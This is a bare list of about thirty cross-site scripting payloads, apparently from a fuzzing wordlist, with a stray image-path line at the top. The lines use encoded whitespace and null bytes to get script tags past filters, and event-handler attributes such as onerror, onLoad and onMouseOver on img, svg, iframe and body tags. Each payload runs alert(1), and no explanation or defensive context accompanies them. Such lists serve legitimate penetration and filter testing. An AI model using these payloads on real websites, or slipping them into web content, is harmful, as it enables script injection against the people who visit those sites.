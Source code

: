 <script\x20type="text/javascript">javascript:alert(1);</script>
<script\x3Etype="text/javascript">javascript:alert(1);</script>
<script\x0Dtype="text/javascript">javascript:alert(1);</script>
<script\x09type="text/javascript">javascript:alert(1);</script>
<script\x0Ctype="text/javascript">javascript:alert(1);</script>
<script\x2Ftype="text/javascript">javascript:alert(1);</script>
<script\x0Atype="text/javascript">javascript:alert(1);</script>
'`"><\x3Cscript>javascript:alert(1)</script>        
'`"><\x00script>javascript:alert(1)</script>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<body src=1 href=1 onerror="javascript:alert(1)"></body>
<image src=1 href=1 onerror="javascript:alert(1)"></image>
<object src=1 href=1 onerror="javascript:alert(1)"></object>
<script src=1 href=1 onerror="javascript:alert(1)"></script>
<svg onResize svg onResize="javascript:javascript:alert(1)"></svg onResize>
<title onPropertyChange title onPropertyChange="javascript:javascript:alert(1)"></title onPropertyChange>
<iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>
<body onMouseEnter body onMouseEnter="javascript:javascript:alert(1)"></body onMouseEnter>
<body onFocus body onFocus="javascript:javascript:alert(1)"></body onFocus>
<frameset onScroll frameset onScroll="javascript:javascript:alert(1)"></frameset onScroll>
<script onReadyStateChange script onReadyStateChange="javascript:javascript:alert(1)"></script onReadyStateChange>
<html onMouseUp html onMouseUp="javascript:javascript:alert(1)"></html onMouseUp>
<body onPropertyChange body onPropertyChange="javascript:javascript:alert(1)"></body onPropertyChange>
<svg onLoad svg onLoad="javascript:javascript:alert(1)"></svg onLoad>
<body onPageHide body onPageHide="javascript:javascript:alert(1)"></body onPageHide>
<body onMouseOver body onMouseOver="javascript:javascript:alert(1)"></body onMouseOver>
<body onUnload body onUnload="javascript:javascript:alert(1)"></body onUnload>
<body onLoad body onLoad="javascript:javascript:alert(1)"></body onLoad>
